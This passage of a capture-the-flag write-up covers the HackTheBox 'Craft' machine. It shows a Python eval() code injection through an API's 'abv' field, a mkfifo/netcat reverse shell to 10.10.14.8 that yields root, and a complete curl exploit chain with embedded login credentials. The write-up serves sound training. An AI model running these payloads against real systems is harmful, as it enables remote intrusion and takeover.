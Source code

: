 

Now I'll check that with the code from gogs, putting `s` where the code
has `requests.json['abv']`:



    >>> eval('%s > 1' % s)
    hello, I am a command execution
    False



Great. Still execution. I want to get a reverse shell. As always, I'll
turn to the [Pentest Monkey cheat
sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
In this case, I'll go with the `mkfifo` shell, which is especially nice
in this case since it doesn't have any `"` or `'` to worry about
nesting. I'll test it locally to make sure I have the syntax correct,
and it works:



    >>> s = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')"
    >>> eval('%s > 1' % s)
    rm: cannot remove '/tmp/f': No such file or directory





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.14.8.
    Ncat: Connection from 10.10.14.8:48958.
    # id
    uid=0(root) gid=0(root) groups=0(root)



### Shell

Now I'll just replace the `abv` value from the successful beer POST with
the `python` injection code and get a shell as root:



    root@kali# TOKEN=$(curl -s -k -X GET "https://dinesh:4aUh0A8PbVJxgd@api.craft.htb/api/auth/login" -H  "accept: application/json" | jq -r '.token'); \
    curl -X POST "https://api.craft.htb/api/brew/" -H  "accept: application/json" -H  "Content-Type: application/json" -d "{
    \"id\": 0,
    \"brewer\": \"0xdf\",
    \"name\": \"beer\",
    \"style\": \"bad\",
    \"abv\": \"__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f')\"}" -k -H "X-CRAFT-API-TOKEN: $TOKEN"
